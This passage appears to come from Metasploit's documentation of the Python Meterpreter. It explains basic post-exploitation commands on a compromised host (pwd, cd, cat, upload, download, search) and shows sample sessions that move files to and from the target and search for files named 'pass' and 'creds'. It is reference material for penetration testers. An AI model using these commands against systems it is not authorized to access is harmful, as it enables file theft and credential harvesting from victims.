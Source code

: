 Compared to a native Meterpreter such as windows/meterpreter/reverse_tcp, the Python Meterpreter
has less commands, but here's a list of all the common ones you might need:

**pwd command**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/sinn3r/Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd /Users/sinn3r/Desktop
meterpreter > pwd
/Users/sinn3r/Desktop
```

**cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
Hello World!
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/data.txt /Users/sinn3r/Desktop
[*] uploading  : /tmp/data.txt -> /Users/sinn3r/Desktop
[*] uploaded   : /tmp/data.txt -> /Users/sinn3r/Desktop/data.txt
meterpreter >
```

**download command**

The ```download``` command allows you to download a file from the remote target to your machine.
For example:

```
meterpreter > download /Users/sinn3r/Desktop/data.txt /tmp/pass.txt
[*] downloading: /Users/sinn3r/Desktop/data.txt -> /tmp/pass.txt/data.txt
[*] download   : /Users/sinn3r/Desktop/data.txt -> /tmp/pass.txt/data.txt
meterpreter >
```

**search command**

The ```search``` command allows you to find files on the remote file system. For example,
this shows how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 2 results...
    .\pass.txt (13 bytes)
    ./creds\data.txt (83 bytes)
meterpreter >
```
